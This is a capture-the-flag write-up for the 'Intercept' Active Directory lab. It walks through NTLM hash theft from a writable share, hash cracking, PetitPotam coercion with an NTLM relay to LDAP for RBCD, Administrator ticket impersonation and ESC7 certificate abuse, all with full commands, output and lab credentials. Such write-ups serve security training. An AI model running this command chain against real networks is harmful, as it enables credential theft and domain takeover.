



# Initial enumeration

## Nmap Scan

    10.10.192.213(dc01)
    53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
    88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-07-09 18:39:35Z)
    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    464/tcp  open  kpasswd5?     syn-ack ttl 127
    593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

    10.10.192.214(ws01)

    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

Since we don't have any credentials, we could try to log in as the guest account. In this case, the account seems to be enabled on WS01, but not on the DC.

Since we have WRITE privileges over this share, and we know that developers usually check it regularly, we could abuse [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and try to got ntlm hash here.
## ntlm theft

    ➜  ntlm_theft git:(master) python3 ntlm_theft.py --generate all --server 10.8.2.152 --filename osman

Let's pop it into hashcat and see if it cracks.

    ➜  intercept hashcat -m 5600 hash1 /usr/share/wordlists/rockyou.txt 
    Dictionary cache hit:
    Filename..: /usr/share/wordlists/rockyou.txt
    Passwords.: 14344385
    Bytes.....: 139921507
    Keyspace..: 14344385

    KATHRYN.SPENCER::INTERCEPT:4f9b7ec78c7742f7:0a0bba672a19d3ac07eabfbcbca55cc7:010100000000000000[snip]000000000000000000:<redacted>

Let's think, how could we take over WS01? We are not a local admin and we cannot RDP… Coerce attacks are a real nuisance nowadays, however, SMB signing is enforced on the Domain Controller, this completely mitigates any SMB -> SMB or SMB -> LDAP relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the WebClient service, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from HTTP -> LDAP, even if SMB signing is enabled, but we would also need LDAP signing to not be enforced. Let’s check it out.
## Ldap Signing Not Enforced!
We can use crackmappexec's webdav and ldap-checker modules to verify it, and it looks like the WebClient is running!

    ➜  intercept crackmapexec ldap 10.10.192.213 -u Kathryn.Spencer -p <redacted>  -M ldap-checker 
    SMB         10.10.192.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.192.213   389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
    LDAP-CHE... 10.10.192.213   389    DC01             LDAP Signing NOT Enforced!
    LDAP-CHE... 10.10.192.213   389    DC01             Channel Binding is set to "NEVER" - Time to PWN!

And LDAP Signing is NOT Enforced!

U may wanna check [this](https://medium.com/@njoffsec/bypassing-ldap-channel-binding-when-ldap-signing-is-not-enforced-f6093bab5a67) for time to PWN! but i will use my blog after that.

U can find dnstool.py file [here](https://github.com/dirkjanm/krbrelayx)

    ➜ krbrelayx git:(master) python3 dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p <redacted> --tcp -a add -t A -d 10.8.2.152 -r WS02.intercept.vl 10.10.192.213
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully

This will create the WS02.intercept.vl record and point it to our IP address. Note you have to use the FQDN (Fully Qualified Domain Name) when creating the DNS record.

U can find ntlmrelayx on impacket tools

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ --delegate-access
    Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections

This will listen for incoming HTTP connections on port 80, then, once it receives an inbound authentication attempt, it will relay it to LDAP and perform RBCD as the machine account.

To coerce the machine account of WS01 to authenticate to us via HTTP, we will have to specify <HOSTNAME>@80/<whatever> as the target. It’s necessary to use the HOSTNAME and @80, otherwise authentication will not happen, this is why we needed to create a DNS record. I will use [PetitPotam](https://github.com/topotam/PetitPotam) for this, which will coerce WS01 back to us by using MS-EFSRPC’s EfsRpcEncryptFileSrv function.

  ➜  PetitPotam git:(master) ✗  python3 PetitPotam.py -u Kathryn.Spencer -p Chocolate1 -d intercept.vl 'WS02@80/newtest' ws01.intercept.vl

ntlmrelayx will receive and relay the authentication attempt to the DC using LDAP, it will create a random computer account with a random password and will set up RBCD from the created computer account to WS01, this way, we can impersonate any user on WS01 and take control over it.

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ -smb2support --delegate-access
    [snip]
    [*] Adding new computer with username: HIKVFVEF$ and password: +/lQ2,O$R0(X6Ih result: OK
    [snip]

We are now able to request a TGS to any SPN we want while impersonating any user on that machine. In this case I will request a CIFS TGS (Ticket Granting Service) as the impersonated Administrator user.

    getST.py -spn CIFS/ws01.intercept.vl -impersonate Administrator -dc-ip 10.10.192.213 intercept.vl/'HIKVFVEF$':'+/lQ2,O$R0(X6Ih'

    smbclient.py -k -no-pass -dc-ip 10.10.192.213 ws01.intercept.vl

after those command we sav flag and got here creds:

    Simon.Bowen@intercept.vl:<readacted>

## ESC7 Attack in ADCS

Checking what Simon.Bowen’s privileges are in BloodHound, we see they have GenericAll over the CA-MANAGERS Group and OU, this allows us to add ourselves to the CA-MANAGERS group, also if we really can manage the CA being in that group, we can become DA.

U can use [this](https://github.com/ly4k/Certipy#esc7) directly

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -add-officer 'Simon.Bowen' -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -enable-template SubCA -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -template SubCA -upn administrator@intercept.vl

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -issue-request 4 -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -retrieve 4

it will give u administrator pfx and u can extract with this

    ➜  intercept certipy-ad auth -pfx administrator.pfx -username Administrator -domain intercept.vl

